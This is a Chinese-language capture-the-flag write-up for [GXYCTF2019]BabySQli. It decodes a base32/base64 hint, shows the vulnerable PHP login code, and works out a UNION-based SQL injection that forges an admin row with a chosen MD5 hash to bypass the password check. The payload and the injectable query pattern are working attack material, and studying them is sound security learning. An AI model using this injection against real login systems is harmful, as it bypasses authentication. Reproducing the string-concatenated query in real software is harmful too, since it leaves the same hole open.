


# \[GXYCTF2019]BabySQli

## \[GXYCTF2019]BabySQli

## 考点

* base32
* union联合注入

## wp

在 search.php 页面存在注释 `MMZFM422K5HDASKDN5TVU3SKOZRFGQRRMMZFM6KJJBSG6WSYJJWESSCWPJNFQSTVLFLTC3CJIQYGOSTZKJ2VSVZRNRFHOPJ5`

不难猜出这是base32，base32只有大写字母和数字，以及三个等号。先base32解码再base64解码得到查询代码 `select * from user where username = '$name'`

用户名输入admin会返回 wrong pass! 输入其他的会返回 wrong user! ，不难猜到 admin 肯定存在

输入 admin' or '1'='1'# 返回 do not hack me!，发现 or 被过滤

既然是注入，先看一下查询的字段数。POST数据 name=admin' union select 1,2,3#\&pw=aaaaa 返回 wrong pass! 那就是查询 3 列

核心代码

```php
$name = $_POST['name'];
$password = $_POST['pw'];
$t_pw = md5($password);
$sql = "select * from user where username = '".$name."'";

if( preg_match("/\(|\)|\=|or/", $name) ) {
    die("do not hack me!");
}else{
    if ( !$result ) {
        printf("Error: %s\n", mysqli_error($con));
        exit();
    }else{
        $arr = mysqli_fetch_row($result);
        if($arr[1] == "admin"){
            if(md5($password) == $arr[2]) {
                echo $flag;
            }else{
                die("wrong pass!");
            }
        }else{
            die("wrong user!");
        }
    }
}
```

根据代码，可以看到，获取flag的条件是登陆密码的md5值要和数据库中的值相同

MySQL在 union 联合查询的时候，会产生一个虚拟表，就可以利用这个特性进行伪造admin



payload：name=1' union select 1,'admin','594f803b380a41396ed63dca39503542'#\&pw=aaaaa



## 小结

1. 利用union联合注入伪造用户
